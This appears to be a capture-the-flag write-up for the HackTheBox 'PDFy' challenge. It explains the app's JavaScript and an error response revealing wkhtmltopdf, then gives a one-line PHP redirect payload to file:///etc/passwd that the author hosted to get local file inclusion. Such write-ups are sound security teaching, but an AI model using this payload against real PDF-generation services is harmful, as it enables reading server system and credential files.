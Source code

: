 ```yaml
---
title: "[HTB] PDFy - LFI using wkhtmltopdf"
summary: "Writeup for HackTheBox PDFy challenge"
categories: ["Writeup", "Hacking"]
tags: ["hackthebox"]
# externalUrl: "https://www.docker.com/blog/docker-desktop-4-18/"
date: 2024-08-06
draft: false
showauthor: false
authors:
  - hakkabaka
# series: ["The Complete PM"]
# series\_order: 1
---
```


**Difficulty:** Easy

## First look
The application is pretty straightforward: it has a single form that takes a string input. If the string is a URL, the app generates a PDF of the webpage. There’s not much to see except for some JavaScript. Below is the JavaScript code, main.js, with added details and an improved explanation for better understanding.

This JavaScript code handles form submissions on the webpage. Specifically, it processes a URL input, sends it to a backend API, and displays a PDF screenshot of the corresponding webpage. Here's a detailed breakdown of the code:

### Variable Declarations

```javascript
const form       = document.getElementById('form');
const url        = document.getElementById('url');
const alerts     = document.getElementById('alerts');
const screenshot = document.getElementById('screenshot');
const loading    = document.getElementById('loading');
```

These lines select various HTML elements by their IDs and store them in constants for later use.

### Flash Function

```javascript
const flash = (message, level) => {
    alerts.innerHTML += `
        <div class="alert alert-${level}" role="alert">
            <button type="button" id="closeAlert" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
            <strong>${message}</strong>
        </div>
    `;
};
```

This function displays an alert message in the alerts element. The level parameter determines the type of alert (e.g., warning, success).

### Form Submission Event Listener

```javascript
form.addEventListener('submit', e => {
    e.preventDefault(); // Prevent default form submission behavior

    // Clear previous alerts and screenshot
    alerts.innerHTML = '';
    screenshot.innerHTML = '';

    // Check if the URL input is empty
    if (url.value.trim().length == 0) return flash('URL can\'t be empty', 'warning');

    // Show loading indicator
    loading.style.display = 'block';

    // Send a POST request to the server with the URL
    // API call
    fetch('/api/cache', {
        method: 'POST',
        body: JSON.stringify({
            'url': url.value
        }),
        headers: {
            'Content-Type': 'application/json'
        }
    })
    .then(resp => resp.json()) // Parse the JSON response
    .then(resp => {
        // Display a message if there is one
        if (resp.message) {
            flash(resp.message, resp.level);
            
            // Automatically close the alert after 2800ms
            setTimeout(() => {
                document.getElementById('closeAlert').click();
            }, 2800);
        }

        // Display the screenshot if a domain is returned
        if (resp.domain) {
            screenshot.innerHTML += `
                <h2>Screenshot for <a href="${url.value}" target="_blank">${resp.domain}</a></h2>
                <iframe src="/static/pdfs/${resp.filename}" frameborder="0" scrolling="no" style="height:100vh;width:65%;"></iframe>
            `;
        }
    })
    .then(() => {
        // Clear the URL input and hide the loading indicator
        url.value = '';
        loading.style.display = 'none';
    });
});
```

## Blind Assumptions
It's not best practice to make assumptions, but for this easy challenge, it was acceptable. The potential exploit vector follows this path:

SSRF -> Exploit something in the parser -> ??? -> Profit

**BUT!**
How is the PDF generated? The answer is **wkhtmltopdf**.

How do I know? When I directly contacted the /api/cache endpoint from main.js and sent a non-existing URL, I got this response:


```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.2 Python/3.12.2
Date: Tue, 06 Aug 2024 09:29:06 GMT
Content-Type: application/json
Content-Length: 312
Connection: close

{
  "level": "error",
  "message": "There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'http://google1.com', 'application/static/pdfs/cccc0ed9a20dcd4975f7c9f03f38.pdf']' returned non-zero exit status 1."
}

```

### wkhtmltopdf

I googled it and found some interesting links:

[Owning the cloud through SSRF and PDF generators](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/edit#slide=id.g5df2243028_0_107)

[High Vulnerability in Wkhtmltopdf 0.12.6](https://it.ucsf.edu/high-vulnerability-wkhtmltopdf-0126)

[wkhtmltopdf SSRF](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)

Quick look:

**wkhtmltopdf** is a popular open-source PDF and image rendering utility. If used improperly, it can introduce significant security vulnerabilities. Since wkhtmltopdf renders HTML content server-side, it's a prime target for both Server-side Request Forgery (SSRF) and Local File Inclusion (LFI).

The following payload can exploit this vulnerability:

```php
<?php header('location:file:///etc/passwd); ?>
```

## Exploit
Using a PHP payload uploaded to my VPS, I was able to exploit the vulnerability. After sending the URL to the payload, I received the flag.

<img class="thumbnailshadow" src="img/2.png"/>


